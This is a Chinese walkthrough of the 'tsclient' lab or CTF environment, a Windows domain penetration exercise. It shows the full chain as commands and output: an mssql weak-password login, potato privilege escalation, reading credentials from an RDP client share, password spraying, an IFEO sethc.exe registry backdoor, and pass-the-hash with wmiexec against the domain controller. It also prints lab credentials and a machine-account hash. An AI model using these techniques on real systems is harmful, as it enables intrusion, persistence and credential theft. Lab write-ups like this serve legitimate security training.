


考点：

- mssql弱口令
- SweetPotato提权
- CS注入在线用户进程上线
- 共享文件
- CS不出网转发上线
- 映像劫持提权(放大镜提权)
- Dcsync

# FLAG1

直接先用fscan进行扫描


发现了mssql的弱口令，直接用MDUT进行连接

```
[*] Icmp alive hosts len is: 1
39.99.146.17:80 open
39.99.146.17:1433 open
[*] alive ports len is: 2
start vulscan
[*] WebTitle: http://39.99.146.17       code:200 len:703    title:IIS Windows Server
[+] mssql:39.99.146.17:1433:sa 1qaz!QAZ
```


激活XP_Cmdshell组件执行命令后，发现当前用户是mssqlserver用户

ipconfig

```

Windows IP 配置


以太网适配器 以太网:

   连接特定的 DNS 后缀 . . . . . . . : 
   本地链接 IPv6 地址. . . . . . . . : fe80::30d0:cf39:a132:330%14
   IPv4 地址 . . . . . . . . . . . . : 172.22.8.18
   子网掩码  . . . . . . . . . . . . : 255.255.0.0
   默认网关. . . . . . . . . . . . . : 172.22.255.253

隧道适配器 isatap.{E309DFD0-37D7-4E89-A23A-3C61210B34EA}:

   媒体状态  . . . . . . . . . . . . : 媒体已断开连接
   连接特定的 DNS 后缀 . . . . . . . : 

隧道适配器 Teredo Tunneling Pseudo-Interface:

   连接特定的 DNS 后缀 . . . . . . . : 
   IPv6 地址 . . . . . . . . . . . . : 2001:0:348b:fb58:870:10c6:d89c:6775
   本地链接 IPv6 地址. . . . . . . . : fe80::870:10c6:d89c:6775%12
   默认网关. . . . . . . . . . . . . : ::

```

systeminfo

```

主机名:           WIN-WEB
OS 名称:          Microsoft Windows Server 2016 Datacenter
OS 版本:          10.0.14393 暂缺 Build 14393
OS 制造商:        Microsoft Corporation
OS 配置:          独立服务器
OS 构件类型:      Multiprocessor Free
注册的所有人:     
注册的组织:       Aliyun
产品 ID:          00376-40000-00000-AA947
初始安装日期:     2022/7/11, 12:46:14
系统启动时间:     2024/7/28, 13:38:11
系统制造商:       Alibaba Cloud
系统型号:         Alibaba Cloud ECS
系统类型:         x64-based PC
处理器:           安装了 1 个处理器。
                  [01]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2500 Mhz
BIOS 版本:        SeaBIOS 449e491, 2014/4/1
Windows 目录:     C:\Windows
系统目录:         C:\Windows\system32
启动设备:         \Device\HarddiskVolume1
系统区域设置:     zh-cn;中文(中国)
输入法区域设置:   zh-cn;中文(中国)
时区:             (UTC+08:00) 北京，重庆，香港特别行政区，乌鲁木齐
物理内存总量:     3,950 MB
可用的物理内存:   1,475 MB
虚拟内存: 最大值: 4,654 MB
虚拟内存: 可用:   1,046 MB
虚拟内存: 使用中: 3,608 MB
页面文件位置:     C:\pagefile.sys
域:               WORKGROUP
登录服务器:       暂缺
修补程序:         安装了 6 个修补程序。
                  [01]: KB5013625
                  [02]: KB4049065
                  [03]: KB4486129
                  [04]: KB4486131
                  [05]: KB5014026
                  [06]: KB5013952
网卡:             安装了 1 个 NIC。
                  [01]: Red Hat VirtIO Ethernet Adapter
                      连接名:      以太网
                      启用 DHCP:   是
                      DHCP 服务器: 172.22.255.253
                      IP 地址
                        [01]: 172.22.8.18
                        [02]: fe80::30d0:cf39:a132:330
Hyper-V 要求:     已检测到虚拟机监控程序。将不显示 Hyper-V 所需的功能。


```

whoami /priv查看特权信息

```

特权信息
----------------------

特权名                        描述                 状态  
============================= ==================== ======
SeAssignPrimaryTokenPrivilege 替换一个进程级令牌   已禁用
SeIncreaseQuotaPrivilege      为进程调整内存配额   已禁用
SeChangeNotifyPrivilege       绕过遍历检查         已启用
SeImpersonatePrivilege        身份验证后模拟客户端 已启用
SeCreateGlobalPrivilege       创建全局对象         已启用
SeIncreaseWorkingSetPrivilege 增加进程工作集       已禁用

```

因为是mssql的服务，想到用Potato系列来进行权限提升（该提权手法的前提是拥有`SeImpersonatePrivilege`或`SeAssignPrimaryTokenPrivilege`权限）

```
C:/ProgramData/PrintSpoofer64.exe -i -c whoami
```


上线CS


拿到flag1



这里也可以提前用mssqlservice的用户上线CS，利用插件来提权


# FLAG2

由于提醒要看sessions，所以用quser命令查看，发现john用户登陆了rdp


发现3389是WIN19-CLIENT连过来的


在这个环境中，因为有管理员权限可以偷RDP用户的token，从而查看其挂载的盘

我这里是使用CS注入到john进程来操作的，也可以用SharpToken来模拟令牌https://github.com/BeichenDream/SharpToken，执行net use查看共享


上线后查看用户可以看到它存在共享文件


```
shell type \\tsclient\c\credential.txt
```


读到了一个密码`xiaorang.lab\Aldrich:Ald@rLMWuy7Z!#`，并且提示镜像劫持

上传fscan进行内网扫描，发现了内网了另外的机器

```
shell C:\ProgramData\fscan.exe -h 172.22.8.18/24>result.txt

start infoscan
(icmp) Target 172.22.8.18     is alive
(icmp) Target 172.22.8.31     is alive
(icmp) Target 172.22.8.15     is alive
(icmp) Target 172.22.8.46     is alive
[*] Icmp alive hosts len is: 4
172.22.8.46:445 open
172.22.8.15:88 open
172.22.8.15:445 open
172.22.8.18:1433 open
172.22.8.31:445 open
172.22.8.18:445 open
172.22.8.46:139 open
172.22.8.15:139 open
172.22.8.31:139 open
172.22.8.15:135 open
172.22.8.46:135 open
172.22.8.31:135 open
172.22.8.18:139 open
172.22.8.18:135 open
172.22.8.46:80 open
172.22.8.18:80 open
[*] alive ports len is: 16
start vulscan
[*] NetInfo:
[*]172.22.8.18
   [->]WIN-WEB
   [->]172.22.8.18
   [->]2001:0:348b:fb58:870:10c6:d89c:6775
[*] WebTitle: http://172.22.8.46        code:200 len:703    title:IIS Windows Server
[*] NetInfo:
[*]172.22.8.15
   [->]DC01
   [->]172.22.8.15
[*] NetInfo:
[*]172.22.8.31
   [->]WIN19-CLIENT
   [->]172.22.8.31
[*] NetInfo:
[*]172.22.8.46
   [->]WIN2016
   [->]172.22.8.46
[*] WebTitle: http://172.22.8.18        code:200 len:703    title:IIS Windows Server
[*] NetBios: 172.22.8.31     XIAORANG\WIN19-CLIENT          
[*] NetBios: 172.22.8.15     [+]DC XIAORANG\DC01            
[*] NetBios: 172.22.8.46     WIN2016.xiaorang.lab                Windows Server 2016 Datacenter 14393 
[+] mssql:172.22.8.18:1433:sa 1qaz!QAZ
宸插畬鎴?16/16
[*] 鎵弿缁撴潫,鑰楁椂: 10.2880774s

```

域控服务器为172.22.8.15，刚才的john用户是172.22.8.31连过来的

既然拿到了密码，那就对这个C段段机器进行密钥喷洒

```
sme smb 172.22.8.0/24 -u Aldrich -p Ald@rLMWuy7Z!#
```


可以登陆172.22.8.46，登录的时候（选择对应的域）提醒修改密码


这里想到了上面的提示镜像劫持（IFEO），先看看注册表权限

```
get-acl -path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" | fl *
```


这里发现普通用户都可以创建

```bash
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"
```

设置镜像劫持shift后门（也可以设置其他的），然后锁定用户五次shift以管理员身份打开了cmd（在锁定用户后，粘滞键快捷方式在登录屏幕运行，而登录屏幕上的任何命令提示符都运行在更高的系统权限级别。这是因为在Windows登录屏幕上执行的任何命令都被视为系统级操作，通常具有更高的权限。而在用户会话中，启动的命令提示符默认是以当前用户权限级别运行的，而不是管理员权限）


通过上一台机器在cs创建监听，上线win2016


在相应的目录下找到了



# FLAG3

```
net group "Domain Admins" /domain
```

发现win2016$在域管组里，即机器账户可以Hash传递登录域控，所以相当于直接拿域控了。(因此这里最简单的做法是logonpaswords抓到win2016$的哈希之后用他哈希直接pth域控)


直接dump hash横向到域控(logonpasswords)


```
c9a34cba5b7ce64bf65771a1e2e6b4b3

python3 wmiexec.py -hashes :c9a34cba5b7ce64bf65771a1e2e6b4b3 xiaorang.lab/WIN2016\$@172.22.8.15
```

这里准备横向的时候环境到期了，不过这个域控就直接抓Hash横向移动即可


由于时间的关系，就只大致的打了一遍，至于代理这里就直接用Stowaway走的VPS的代理，域内信息收集的话没有去全面去收集，也没有去看有没有其他方式去打域控，有时间的话可以试试BloodHound收集信息，看看是否有Dcsync权限，以及是否有委派


参考链接：

https://www.cnblogs.com/kingbridge/articles/17645128.html

http://nooemotion.com/2023/01/25/%E6%98%A5%E7%A7%8B%E4%BA%91%E5%A2%83-tsclient/

https://exp10it.io/2023/07/%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-tsclient-writeup/